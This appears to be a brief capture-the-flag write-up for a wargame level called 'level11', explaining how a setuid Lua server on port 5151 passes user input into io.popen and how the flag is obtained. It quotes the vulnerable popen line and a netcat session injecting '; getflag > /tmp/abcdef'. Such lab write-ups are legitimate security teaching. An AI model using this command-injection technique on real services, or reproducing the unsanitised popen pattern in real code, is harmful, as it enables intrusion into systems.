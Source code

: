 ## level11

1. Check files in current working directory (home dir)
    - `-rwsr-sr-x  1 flag11  level11  668 Mar  5  2016 level11.lua*`

A basic lua script, it represents the code for a server running on port `5151`, which indeed is running on the machine.

This challenge is easy, here are the problems :

1. The lua script uses a `io.popen` function to.. compute a hash
    * `prog = io.popen("echo "..pass.." | sha1sum", "r")`
    * Here the raw string `pass` is concatenated to the string `echo` and piped to `sha1sum`, so we can inject a command here.
2. idk there's a lib to compute sha1 without using pipes

Anyway just run this and voilà :

```bash
nc 127.0.0.1 5151
; getflag > /tmp/abcdef
cat /tmp/abcdef
```
